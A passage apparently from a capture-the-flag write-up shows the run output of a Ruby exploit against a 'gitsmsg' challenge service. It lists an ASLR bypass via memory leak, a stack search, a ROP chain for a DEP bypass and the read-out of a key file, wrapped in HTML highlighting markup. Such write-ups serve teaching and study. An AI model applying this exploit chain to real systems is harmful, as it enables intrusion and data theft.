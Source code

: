 We write up to 100 bytes from that buffer back to the main file descriptor of the connection—that is, back to the socket that I'm communicating through. This descriptor was obtained by reading the right place in memory.

It's simple, but it works! And if all goes according to plan, here's the exploit running:

```

$ <span class="Identifier">ruby</span> <span class="Identifier">sploit</span><span class="Statement">.rb</span>
** <span class="Identifier">Initializing</span>
** <span class="Identifier">Logging</span> <span class="Identifier">in</span>
** <span class="Identifier">Stashing</span> <span class="Identifier">a</span> <span class="Identifier">path</span> <span class="Identifier">to</span> <span class="Identifier">the</span> <span class="Identifier">file</span> <span class="Identifier">on</span> <span class="Identifier">the</span> <span class="Identifier">heap</span>
'/<span class="Identifier">home</span>/<span class="Identifier">gitsmsg</span>/<span class="Identifier">key</span>' <span class="Identifier">stored</span> <span class="Identifier">at</span> <span class="Constant">0xb8c2f848</span>
** <span class="Identifier">Using</span> <span class="Identifier">a</span> <span class="Identifier">memory</span> <span class="Identifier">leak</span> <span class="Identifier">to</span> <span class="Identifier">get</span> <span class="Identifier">the</span> <span class="Identifier">base</span> <span class="Identifier">address</span> [<span class="Identifier">ASLR</span> <span class="Identifier">Bypass</span>]
... <span class="Identifier">found</span> <span class="Identifier">it</span> @ <span class="Constant">0xb77dd000</span><span class="Comment">!</span>
** <span class="Identifier">Reading</span> <span class="Identifier">the</span> <span class="Identifier">file</span> <span class="Identifier">descriptor</span> <span class="Identifier">from</span> <span class="Identifier">memory</span>
... <span class="Identifier">it</span>'<span class="Identifier">s</span> <span class="Constant">4</span><span class="Comment">!</span>
** <span class="Identifier">Searching</span> <span class="Identifier">stack</span> <span class="Identifier">memory</span> <span class="Identifier">for</span> <span class="Identifier">the</span> <span class="Identifier">return</span> <span class="Identifier">address</span> [<span class="Identifier">Another</span> <span class="Identifier">ASLR</span> <span class="Identifier">Bypass</span>]
<span class="Identifier">Reading</span> <span class="Identifier">the</span> <span class="Identifier">stack</span> (<span class="Constant">0xbf800000</span> - <span class="Constant">0xbfffffff</span>)...
... <span class="Identifier">found</span> <span class="Identifier">it</span> @ <span class="Constant">0xbfd0546c</span>
** <span class="Identifier">Generating</span> <span class="Identifier">the</span> <span class="Identifier">ROP</span> <span class="Identifier">chain</span> [<span class="Identifier">DEP</span> <span class="Identifier">Bypass</span>]
** <span class="Identifier">Writing</span> <span class="Identifier">the</span> <span class="Identifier">ROP</span> <span class="Identifier">chain</span> <span class="Identifier">to</span> <span class="Identifier">the</span> <span class="Identifier">stack</span>
** <span class="Identifier">Sending</span> <span class="Identifier">a</span> '<span class="Identifier">quit</span>' <span class="Identifier">message</span>, <span class="Identifier">to</span> <span class="Identifier">trigger</span> <span class="Identifier">the</span> <span class="Identifier">payload</span>
** <span class="Identifier">Crossing</span> <span class="Identifier">our</span> <span class="Identifier">fingers</span> <span class="Identifier">and</span> <span class="Identifier">waiting</span> <span class="Identifier">for</span> <span class="Identifier">the</span> <span class="Identifier">password</span>
<span class="Identifier">The</span> <span class="Identifier">key</span> <span class="Identifier">is</span>: <span class="Identifier">lol</span>, <span class="Identifier">tagged</span> <span class="Identifier">unions</span> <span class="Identifier">for</span> <span class="Identifier">the</span> <span class="Identifier">WIN</span><span class="Comment">!</span>
```

